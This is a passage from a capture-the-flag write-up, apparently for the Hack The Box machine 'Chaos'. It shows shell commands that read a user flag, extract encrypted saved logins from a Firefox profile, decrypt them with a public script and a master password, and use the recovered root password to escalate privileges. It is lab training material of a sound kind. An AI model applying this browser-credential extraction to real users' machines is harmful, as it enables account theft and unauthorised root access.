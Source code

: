 ~~~
/home/ayush/.app:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

ayush@chaos:~$ ls
mail  user.txt

ayush@chaos:~$ cat user.txt
eef39126d9c3b4b8a30286970dc713e1
{% endhighlight %}

### 3. Getting Root
In the home directory of ayush, we have ".mozilla" directory.
{% highlight shell %}
ayush@chaos:~$ ls -la
total 40
drwx------ 6 ayush ayush 4096 Jun  8 06:15 .
drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
-rw------- 1 root  root     0 Nov 24  2018 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 Jun  8 06:15 .gnupg
drwx------ 3 ayush ayush 4096 Oct 28  2018 mail
drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 28  2018 user.txt
{% endhighlight %}

We can find a stored credentials for firefox in "logins.json" in following directory.
{% highlight shell %}
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ ls -l | grep "login"
ls -l | grep "login"
-rw------- 1 ayush ayush      570 Oct 27  2018 logins.json

ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ cat logins.json
cat logins.json
{"nextId":3,"logins":[{"id":2,"hostname":"https://chaos.htb:10000","httpRealm":null,"formSubmitURL":"https://chaos.htb:10000","usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDSAazrlUMZFBAhbsMDAlL9iaw==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNx7bW1TuuCuBBAP8YwnxCZH0+pLo6cJJxnb","guid":"{cb6cd202-0ff8-4de5-85df-e0b8a0f18778}","encType":1,"timeCreated":1540642202692,"timeLastUsed":1540642202692,"timePasswordChanged":1540642202692,"timesUsed":1}],"disabledHosts":[],"version":2}
{% endhighlight %}

We can decrypt the usename and password by <a href='https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py'>this</a> script.
{% highlight shell %}
ayush@chaos:~$ python firefox_decrypt.py
python firefox_decrypt.py

Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: jiujitsu


Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
{% endhighlight %}

With above credential, we can login as a root user.
{% highlight shell %}
ayush@chaos:~$ su root
su root
Password: Thiv8wrej~

~~~